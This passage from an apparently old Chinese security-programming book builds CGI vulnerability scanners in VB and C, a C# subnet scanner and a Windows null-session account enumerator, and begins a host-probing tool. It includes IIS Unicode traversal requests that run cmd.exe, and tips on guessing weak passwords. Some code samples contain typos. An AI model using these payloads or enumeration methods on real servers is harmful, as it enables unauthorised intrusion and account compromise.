| sckClosed | 0 | 缺省值，关闭。 |
| SckOpen | 1 | 打开。 |
| SckListening | 2 | 侦听 |
| sckConnectionPending | 3 | 连接挂起 |
| sckResolvingHost | 4 | 识别主机。 |
| sckHostResolved | 5 | 已识别主机 |
| sckConnecting | 6 | 正在连接。 |
| sckConnected | 7 | 已连接。 |
| sckClosing | 8 | 同级人员正在关闭连接。 |
| sckError | 9 | 错误。 |

#### 三、一个简单的实例

(1)新建工程，添加Winsock控件。
(2)输入如下代码：

```
Private Sub Form_Load()
Msgbox str(Winsock1.LocalIP) '显示本地IP
With Winsock1
.LocalPort = 32555 '定义本地端口，通过这一端口连接服务器
.RemoteHost = "127.0.0.1" '定义服务器的IP，也可以输入域名。
.RemotePort = 80 '要求连接的服务器端口，80为HTTP服务
.Connect '连接服务器
EndWith
End Sub
```

我们通过这一段很简单的代码，熟悉了一下Winsock连接服务器的过程。这个程序没有用到其他的属性和方法，旨在让你了解一下如何连接服务器。你可以试着用其它的属性和方法来使得它返回信息。

## 四、CGI漏洞扫描器工作原理

首先，我们用Winsock连接到远程服务器的HTTP服务端口，接着发送GET 请求，这时，服务器将返回这个文件是否存在。如果不存在，那么在返回的信息里将包含"HTTP 404"的信息，说明不存在该漏洞。我们只需要通过判断DataArrival事件中得到的数据里有没有包含HTTP 404就可以了。在本程序中，我们将检查Unicode漏洞。我们可以通过下列请求来判断：

```
GET /scripts/..%c0%af../%c0%af../%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0
GET /msadc/..%c0%af../%c0%af../%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0
GET /_vti_bin/..%c0%af../%c0%af../%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0
GET /_mem_bin/..%c0%af../%c0%af../%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0
GET /cgi-bin/..%c0%af../%c0%af../%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0
```

#### 五、算法

- (1) 单线程算法

单线程算法即我们只创建一个Winsock控件，利用这一个Winsock控件完成扫描。这种方法速度较慢。但代码简单易懂，适合于入门，但其最大的弱点在于如何判断当前收到的是哪一个命令。利用单线程，很难得到确切的漏洞利用方法。但却能判断出对方是否存在漏洞。

- (2) 多线程算法

多线程算法即动态创建多个Winsock控件。这样可以大大加快扫描速度，并且如果定义相应的数组。比如，我们可以用Load Winsock(n)来动态创建一个Winsock控件。相应的由CGI(n)字符变量定义了一个HTTP请求，那么，在DataArrival事件中，我们就可以通过Index来判断当前正在扫描哪个漏洞。比如：

```
DIM CGI() as String
CGI(1)="Get...."
...
CGI(20)=......
For I=1 to 20
Load Winsock(I)
Winsock(I).Remote....
....
Winsock(I).Connect
Next I
......
Private Sub Winsock1_DataArrival (ByVal bytesTotal As Long, Index as Integer)
...
Msgbox "发现漏洞 请求:" & CGI(index)
End Sub
```

以上是多线程扫描的一个例子。利用Load Winsock(I)创建了1~20个控件，对应了1~20个CGI请求。具体的例子可以看笔者编写的Eastscaner(端口扫描器)的源代码，里面就可以动态创建Winsock控件。

#### 六、代码分析

```
Private Sub Form_Load()
Dim CGI() as String
'定义CGI漏洞列表
CGI(1)="GET /scripts/..%c0%af..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0"
CGI(2)="GET /msadc/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0"
CGI(3)="GET /_vti_bin/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0"
CGI(4)="GET /_mem_bin/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0"
CGI(5)="GET /cgi-bin/..%c0%af..%c0%af..%c0%af../winnt/system32/cmd.exe?/c+dir+c:\ HTTP/1.0"

'控件的名字为 Winsock1
With Winsock1
.RemoteHost= "127.0.0.1" '这里设置对方IP
.RemotePort = 80 '连接的端口号。
End With
For I=1 to 5
IF winsock1.state=0 then Winsock1.Connect
Do while Winsock1.State<>7 '判断有没有连接上
Doevents '这是必需的，让当前进程转给其他程序
Loop
'Winsock 已经连接到远程主机
Winsock.senddata CGI(I) & VbCrLf '发送GET请求
Next I
End Sub

Private Sub Winsock1_DataArrival (ByVal bytesTotal As Long)
Dim strData As String
Winsock1.GetData strData '得到字符
If instr(1,strData,"HTTP 404")=0 then MsgBox "发现Unicode漏洞" '判断是否有HTTP404
End Sub
```

#### 七、小结

通过实例，我们可以看到Winsock控件是如何利用的。你可以扩展本程序的功能，比如增加更多的CGI请求，增添多个Text和COMMAND控件，这样可以在运行时自定义对方IP。总之，一定要自己动手。这也是学习编程的最好方法之一。

## 3.2 透视CGI扫描器的原理和实现过程

有很多网站为了安全起见，在Web Server前面架设了防火墙，或者做了TCP/IP过滤，对外只开放TCP 80 端口。从入侵者角度来看，如果要入侵的话，从80端口上运行的CGI入手是比较可行的，当然也可以用别的办法。从网管角度来看，一是要保证CGI的安全性，另外网络的整体安全性也是很重要的。针对基于80端口入侵、防范而出的CGI扫描器数不胜数，但基本上原理都一样。

- CGI扫描器原理说起来其实非常简单，可以用4句话来概括：
1. 连接目标WEB SERVER。
2. 发送一个特殊的请求。
3. 接收目标服务器返回数据。
4. 根据返回数据判断目标服务器是否有此CGI漏洞。

当管理的服务器达到一定数量的时候，手工检测自己的服务器是否存在各种各样的CGI漏洞就太消耗时间和精力了，所以一个网管有个比较好用的CGI漏洞扫描器还是必要的。好，现在我们就自己来动手用C写一个简单的CGI扫描器，帮助自己在日常工作中检测服务器。

源代码如下（很多地方我都加了注释，编译好的程序可以从http://eyas.3322.net/program/cgicheck.exe下载）：

Module:CGICheck.cpp

说明：这是一个Console下多线程，带有进度显示的CGI扫描器的模板，更改一下SzSign和SendBuff就可以扫描其他CGI漏洞，设置了连接、发送、接收超时，速度还可以。希望可以帮助到Admins检测自己的服务器。



程序在VC++6.0上编译通过，在Windows2000上运行良好。

## 3.3 用C#实现网段扫描

想必大家对小榕时光等扫描器都非常熟悉了，有没有自己写一个的冲动？最近微软推实施了.NET战略方案，C#是主推语言，你们是否有兴趣用C#来实现对局域网IP地址的扫描，尝试一下自己写程序的快乐？那么请跟我来。

#### 一、使用的类

- 1. DNS类：在.net中的System.net命名空间下，主要的功能是从 Internet 域名系统(DNS)检索关于特定主机的信息。

- 2. IPHostEntry类：将一个域名系统(DNS)主机与一组别名和一组匹配的 IP 地址关联，与DNS类一起使用。

- 3. IPAddress 类：IP 网络上的地址。使用的命名空间有：
System.Net 命名空间为当前网络上使用的多种协议提供了简单的编程接口；
System.IO命名空间包含允许在数据流和文件上进行同步和异步读取及写入的类型；
System.Thread 命名空间主要是用于多线程程序编程。

#### 二、编程工具的选择

用C#写程序的工具不是很多，最好当然是VS.NET，它是微软针对B/S开发的解决方案，是用来和JAVA一争高下的工具。

准备工作：

首先建立一个C#的Windows应用程序，并加上你要使用的控件。这些控件都是常用的，只需要将它们合理布局一下，构造好界面后，我们进入正题。

#### 三、程序实现的功能

- 1. 获取本地主机IP地址

```
// 对 Button 控件的事件的响应
private void button1_click(object sender, System.EventArgs e)
{
    IPHostEntry myHost = new IPHostEntry();
    Try
    {
        // Dns.GetHostName()获取本地计算机的主机名
        // Dns.GetHostByName()获取指定 DNS 主机名的 DNS 信息
        // 得到本地主机的 DNS 信息
        myHost = Dns.GetHostByName(Dns.GetHostName());
    }
```

```
csharp
// 显示本地主机名
textBox1.Text = myHost.HostName.ToString();
// 显示本地主机的IP地址表
for(int i=0; i<myHost.AddressList.length;i++)
{
richTextBox1.AppendText("本地主机IP地址-->"+myHost.AddressList[i].ToString()+"\r");
}
catch(Exception error)
{
MessageBox.Show(error.Message);
}
}//private
```

执行如图3-1所示。



图3-1

- 2. 远程查询

```
csharp
private void button2_click(object Sender,System.EventArgs e)
{
IPHostEntry myDnsToIP = new IPHostEntry();
//Dns.Resolve 方法：将 DNS 主机名或以点分隔的四部分表示法格式的 // IP 地址解析为 IPHostEntry 实例
myDnsToIP =Dns.Resolve(textBox2.Text.ToString());
// 显示此域名的IP地址的列表
for(int i=0;i<myDnsToIPAddressList.Length;i++)
{
rich.TextBox1.AppendText(textBox2.Text+"的IP地址是"+myDnsToIP.AddressList[i].ToString()
+"\r");
}
}
```

执行如图3-2所示。

- 3. 实现网段扫描，确定网络中正在使用的主机数目。



图3-2

这里使用了多线程技术，增加了多个线程或是线程池(我这里只增加一个线程)，以便防止程序扫描的时间过长，影响程序的响应。不过在.net中，由于使用了垃圾收集技术，所以对线程的控制也不是很复杂。

```
private void button3_click(object sender, System.EventArgs e)
{
    //Thread 类：创建并控制线程
    Thread thScan = new thread(new ThreadStrart(ScanTarget));
    //Thread.Start 方法：启动线程
    thScan.Strart();
}

private void ScanTarget()
{
    //构造IP地址的31-8BIT位，也就是固定的IP地址的前段
    // numericUpDown1 是定义的 System.Windows.Forms.NumericUpDown控件
    string strIPAddress=numericUpDown1.Text+"."+numericUpDown2.Text+"."+numericUpDown3.
    Text+".";
    //开始扫描地址
    int nStrat = Int32.Parse(numericUpDown4.Text);
    //终止扫描地址
    int nEnd =Int32.Parse(numericUpDown5.Text);
    //扫描的操作
    for(int i=nStrat;i<=nEnd;i++)
    {
        string strScanIPAdd = strIPAddress +i.ToString();
        //转换成IP地址
        IPAddress myScanIP = IPAddress.Parse(strScanIPAdd);
        try
        {
            //你可以加入自己的增强功能
            //Dns.GetHostByAddress 方法：根据 IP 地址
            //获取 DNS 主机信息。
            IPHostEntry myScanHost =
            Dns.GetHostByAddress(myScanIP);
            //获取主机的名
            string strHostName =myScanHost.HostName.ToString();
        }
    }
}
```

```
richTextBox1.AppendText(strScanIPAdd+"--->"+strHostName+"\r");
}
catch(Exception error)
{
MessageBox.Show(error.Message);
}
}//for
}//private
```

扫描如图3-3所示。



图3-3

到此为止，一个简单用C#实现扫描器的主要功能就完成了。试一下，你可以看到你的网络上的主机。有没有成就感？如果有疑问，请到 www.vchelp.net论坛的C#或.NET版面和我讨论，或发信给我 chenweijun_sh @etang.com。

### 3.4 利用编程获取服务器信息

细细想想，Windows 2000 提供的功能实在是太强大了，这大大方便了Admin们的管理工作，不过利弊向来都是并存的，正是因为Windows 2000 提供的强大功能，让您稍微不留神，系统就被黑客们光顾了，系统信息被暴露，是非常可怕的事情，这意味着黑客已经掌握了你的服务器一半的情况，一旦发现了系统的漏洞，就意味着下一步入侵的开始。举个简单的例子：如果你的服务器无意中开了一个共享文件夹，黑客想办法获取了你的服务器信息，发现这个共享文件夹允许访问，呵呵，很可能，就被他做个Pub什么的用用……

说了半天，到底远程能够获取什么样的系统信息呢？很多很多，不完全的说一下比较关键的信息吧：

- Server Name: 服务器的名字。

Server Comment:相关的说明信息，很多管理员喜欢在这里写上些敏感信息的。

Server Type: 服务器类型，通过这个，黑客们可以判断出目标服务器是处于什么环境之下，比如可以判断出：A LAN Manager workstation, A LAN Manager server, Windows NT/Windows 2000 workstation or server, Windows NT/Windows 2000 server that is not a domain controller, Server running a browser service as backup, Server running the master browser service。

Major_version、inor_version: 这两个分别是服务器大版本号和小版本号，黑客通过这个得到了操作系统的版本信息，比如，大版本号为5，小版本号为0，择说明是一台windows 2000的服务器，而下一步## 就是查找 Windows 2000 的安全漏洞了。

current date, current time is: 服务器的日期和时间，通过这个，可以判断出服务器所在的时区，良好掌握渗透的时间。

Session: 得到当前服务器的会话连接 IP 地址，这个作用就比较广泛了，可以根据实际情况，灵活的运用。

Share Enum: 这是个很重要的信息，他展示出了服务器上所有的共享文件夹，包括隐含的共享，一旦发现可利用的共享信息，黑客只需简单的在浏览器中输入 \ip\share，就可以访问到目标主机的共享信息，就是这么危险!

UserEnum: 这个东西更可怕了，连服务器的帐号信息都取来了，其中包括用户登陆成功次数，失败次数，帐号使用时间，登陆脚本路径，口令生效时间……这些连系统管理员都看不到哦! 此外还有一些信息会被暴露出来，比如：用户名，用户权限，用户说明信息，是否帐号禁用……这很可能造成弱口令的用户名被轻易破解，簇新的系统管理员如果留个 user:test, password:123 之类的帐号在里面，估计服务器就保不住了。

LocalGroupEnum: 枚举本地组。

此外还有 UseEnum, FileEnum, ScheduleJobEnum……实在太多了。

下面，来说说最重要的部分——到底这些信息怎么样才能获取呢?

打开你的 winnt/system32 这个文件夹，找找看，是不是有一个叫做 netapi32.dll 的文件? 从文件名，我们就可以知道，这是个和网络函数相关的动态连接库，这个就是我们需要找的东西哦! 上面取得的信息，其实全部是通过这个 DLL 文件来实现的。对应于这个 DLL 文件，Windows 2000 提供了一组相关的 API 函数调用，装上 Platform SDK 这个开发工具包，然后请打开你的 MSDN，输入要查找的关键字 “Network Management”，然后选择 Network Management Reference->Network Management Functions 你会看到一组以 Net 开头的 API 函数，正确运用这组函数，就可以获取远端服务器的信息了，函数用法是有点复杂，下面举个简单的例子。

假如存在一台 Windows 2000 的目标主机，其 IP 地址为: 192.168.10.111，我们现在准备获取他的帐号信息，首先我们建立一个 IPC$ 空会话连接，建立空会话和断开会话主要用到了两个函数:

```
DWORD WNetAddConnection2( LPNETRESOURCE lpNetResource, LPCTSTR lpPassword, LPCTSTR lpUsername, DWORD dwFlags);
```

上面的函数是建立一个会话连接，其中 LPCTSTR lpPassword, LPCTSTR lpUsername 分别是用户口令和用户名，要想建立空会话，则一定要把这两项置成空。

```
DWORD WNetCancelConnection2(LPCTSTR lpName, DWORD dwFlags, BOOL fForce);
```

WNetCancelConnection2 的作用则和 WNetAddConnection2 是相反的，在获取用户信息后，为了确保安全，黑客会用他迅速的断开与服务器之间的会话。

我已经把它写成了一个类，这个是类其中的一部分函数:



同样的，也是模拟了这条命令 net use \\xxx.xxx.xxx.xxx /DEL

刚刚说了，我们要取的是远端服务器上的帐号信息，打开 MSDN，输入关键字: NetUserEnum，看到了吧? 你可以找到这条函数 NET_API_STATUS NetUserEnum( LPCWSTR servername, DWORD level, DWORD filter, LPBYTE *bufptr, DWORD prefmaxlen, LPDWORD entriesread, LPDWORD totalentries, LPDWORD resume_handle );

一大串参数，看起来挺可怕的是吧？不要紧，我们一个一个来过：

LPCWSTR servername: 注意这个啊，它可是要求 LPCWSTR 类型的数据，也就是说，要求用 Unicode 字符了，如果你直接为它赋值，是肯定不行的，要绕点弯了，有这样一个函数 MultiByteToWideChar(UINT CodePage, DWORD dwFlags, LPCSTR lpMultiByteStr, int cbMultiByte, LPWSTR lpWideCharStr, int cchWideChar);

这个函数的作用就是用来把单字节转换为双字节

DWORD level: 用来指定操作级别，不同的用户访问权限，这个级别是不同的。根据不同的级别，可以获取不同等级的系统信息，根据 MSDN 上的描述，有以下的级别可供选择：

| 级别 | 描述 |
|------|------|
| 0 | 在这个级别里，可以获取用户帐号名，它使用 USER_INFO_0 这个结构存储，在 ipc 空连接的时候是可用的 |
| 1 | Return detailed information about user accounts. The bufptr parameter points to an array of USER_INFO_1 structures. |
| 2 | Return level one information and additional attributes about user accounts. The bufptr parameter points to an array of USER_INFO_2 structures. |
| 3 | Return level two information and additional attributes about user accounts. This level is valid only on Windows NT/Windows 2000 servers. The bufptr parameter points to an array of USER_INFO_3 structures. Note that on Whistler and later, it is recommended that you use USER_INFO_4 instead. |
| 4 | Whistler: Return level two information and additional attributes about user accounts. This level is valid only on Windows NT/Windows 2000 servers. The bufptr parameter points to an array of USER_INFO_4 structures. |
| 10 | Return user and account names and comments. The bufptr parameter points to an array of USER_INFO_10 structures. |
| 11 | Return detailed information about user accounts. The bufptr parameter points to an array of USER_INFO_11 structures. |
| 20 | Return the user's name and identifier and various account attributes. The bufptr parameter points to an array of USER_INFO_20 structures. Note that on Whistler and later, it is recommended that you use USER_INFO_23 instead. |
| 23 | Whistler: Return the user's name and identifier and various account attributes. The bufptr parameter points to an array of USER_INFO_23 structures. |

与主机建立空会话，已经可以使用除了 4 和 23 以外的所有级别了，4 和 23 被保留了，目前在 Windows 2000 下还不支持这两个级别，他是为了后面的 Windows XP 版本留的。好了，我们有了上面的信息，就开始写程序了：

为了免去诈骗稿费之嫌，我们就举例最简单的 level 0 级别操作，在这个级别，你只能取到系统的帐号名，不过这个对于黑客来说，已经足够了！

下面是程序脚本：


如果你愿意，还可以设计一下弱口令的探测规则，比如如果存在用户名为 test，则可以尝试口令为 “”， “test”， “test123”， “t”， “123”……这个规则越复杂成功率越高哦！大家熟悉的 X-Scan 就是用这种方法获取远程主机信息的，口令探测也是这种方法实现的。

其他的信息获取方法和 NetUserEnum 差不多，只有很小的一些改动，为了节约篇幅，代码就不给出了，如果你需要更多的资料，请关注我的站点 http://BigBall.xici.net。

### 3.5 通过编程实现对目标主机的简单探测

本节内容没有高深的技术，只介绍比较菜的方法对主机进行简单的探测，适合菜鸟们看，高手可以一笑而过!

当目标确定之后，接下来的一步便是收集信息了，就是说要对目标主机的各个方面进行探测，以便获得足够的信息，为你的下一步工作做好铺垫。目前网络上许多现成的扫描器和系统自带的某些小软件可以都很容易地帮助你收集信息，而且做得很出色。现在我们通过编程来实现对远程主机进行简单的探测。下面我们要编写的程序将对一个给定 IP 地址(或主机域名)的主机进行探测，内容包括检测远程主机是否在网络上、向主机请求用户列表、获取特定用户的信息、探测主机开放了哪些服务（端口）以及各种服务软件的版本信息等等。好，我们现在就开始吧。

#### 一、工具的选择

由于编程语言各异，编程工具也五花八门，我们究竟用什么工具好呢？常见的工具有 VC、VB、Delphi 和 C++ Builder。笔者尤其钟爱后者，所以我决定用 C++ Builder 5.0 来写，本文所有的问题都是基于 C++ Builder 的。其实 VC 也很好，只是 GUI 设计有点复杂（不是有点，而是非常复杂），再说，C++ Builder 提供大量的 VCL 库足以满足我们大部分的要求，而且比起 VC 简单实用多了！如果你的编程基础不是很好，又想快速入门过一过编程瘾的话，C++ Builder 是你的最佳选择（某黑编：什么？你小子在吹广告！众编齐上，扁他!@$*%@&@^~~~~~）。

#### 二、编程的预备工作

说是预备工作，其实已经开始了，只是这些工作还不是程序的核心，如创建窗口、设计程序界面、选择需要的控件等等，这些东西也要在这里简单交代一下，不然，下面的代码是基于控件的描述，可能弄得你糊里糊涂。

创建窗体：打开 C++ Builder 5，点击 File-New-New-Application-OK，这样就为程序创建了一个新的窗体。

选择控件：主要有三个控件，它们是 NMEcho 控件（判断主机是否在网络上）、ClientSocket 控件（用于探测主机所开的服务）、NMFinger 控件（获取用户信息）和 Memo 控件（用于显示探测结果）。

其他的如 Edit、GroupBox 等东东大家都很熟悉，不再多说。将这些控件组合一下，构成软件的界面，如图 3-4 所示。



图 3-4

构造好界面后，我们便开始转入正题了，请继续往下看。

#### 三、程序核心部分

- 1、检测远程主机是否在网络上

